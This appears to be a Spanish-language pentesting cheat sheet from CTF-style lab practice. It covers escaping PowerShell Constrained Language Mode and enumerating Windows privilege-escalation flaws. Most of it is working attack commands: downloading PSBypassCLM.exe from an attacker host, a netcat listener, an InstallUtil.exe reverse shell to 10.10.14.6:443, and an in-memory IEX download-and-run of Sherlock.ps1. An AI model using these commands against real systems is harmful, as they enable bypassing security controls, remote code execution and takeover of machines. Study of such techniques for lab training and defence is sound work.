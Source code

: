 ** Modos de Lenguaje de la consola Powershell ** 
>Comprobar contexto de la consola Powershell
> `$executioncontext.sessionstate.languagemode`
> Constrained-Language: Modo de lenguaje de Powershell que permite comandos de tareas administrativas, pero restringe el acceso a comandos que puedan ser invocados para abrir algún Windows API.
> Cambiar modo de Lenguaje de Powershell
> `$ExecutionContext.SessionState.LanguageMode = "FullLanguage"`

** Utilidades para salir de contexto "Constrained-Language" **
> PSBypassCLM: https://github.com/padovah4ck/PSByPassCLM
> Pasar a la máquina objetivo vía http/web el archivo PsBypassCLM.exe:
> `IWR -URI http://10.10.14.6:8000/PSBypassCLM.exe -OutFile CLM.exe`
> Abrir netcat en máquina atacante:
> `rlwrap nc -nlvp 443`
> Buscar utilidad en máquina objetivo:
> `dir C:\Windows\microsoft.net\framework64`
> Ejecutar reverse shell:
> `C:\Windows\Microsot.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=True /U /revshell=true /rhost=10.10.14.6 /rport=443 C:\Users\amanda\Downloads\CLM.exe`

** Enumeración con Sherlock **
https://github.com/rasta-mouse/Sherlock

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

Uso:
> Para ver todas las funciones del script --> `cat Sherlock.ps1 | grep "function"`
> Modificar Sherlock.ps1 para ejecutar automáticamente todas las tareas sin tener que cargar el módulo en Powershell. Modificando su última línea: `Find-AllVulns`
> Transferir archivo a máquina remota. En local:
> `python3 -m http.server`
> Desde la máquina objetivo:
> `IEX (New-Object Net.WebClient).downloadString('http://<own_ip>:<puerto>/Sherlock.ps1')`
> Se ejecutará para obtener todas las vulnerabilidades asociadas al equipo.